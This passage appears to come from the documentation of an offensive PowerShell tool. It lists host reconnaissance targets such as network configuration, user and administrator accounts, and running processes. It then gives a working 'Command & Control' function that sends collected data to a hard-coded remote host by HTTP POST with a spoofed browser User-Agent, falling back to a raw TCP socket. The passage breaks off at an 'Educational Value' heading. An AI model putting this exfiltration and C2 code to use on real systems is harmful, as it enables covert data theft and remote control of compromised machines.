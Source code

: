 **Network Information:**
- Network interfaces and IP addresses
- Routing tables
- DNS configuration
- ARP tables

**User and Group Information:**
- Local users and groups
- Administrator accounts
- Current user group memberships

**Process and Service Information:**
- Running processes (top 20 by CPU)
- Active services
- Startup programs

#### 6. Command & Control

**Multi-Protocol C2:**
```powershell
function Send-Data {
    param($data, $target = "192.168.1.100")
    
    # Try HTTP first
    try {
        $headers = @{ "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" }
        $body = @{ "data" = $data; "timestamp" = (Get-Date).ToString() } | ConvertTo-Json
        Invoke-RestMethod -Uri "http://$target:8080/beacon" -Method POST -Headers $headers -Body $body -TimeoutSec 10
        return $true
    } catch {
        # Try TCP as fallback
        try {
            $client = New-Object System.Net.Sockets.TCPClient($target, 4446)
            $stream = $client.GetStream()
            $writer = New-Object System.IO.StreamWriter($stream)
            $writer.AutoFlush = $true
            $writer.WriteLine($data)
            $client.Close()
            return $true
        } catch {
            return $false
        }
    }
}
```

## Educational Value

### Red Team Perspective
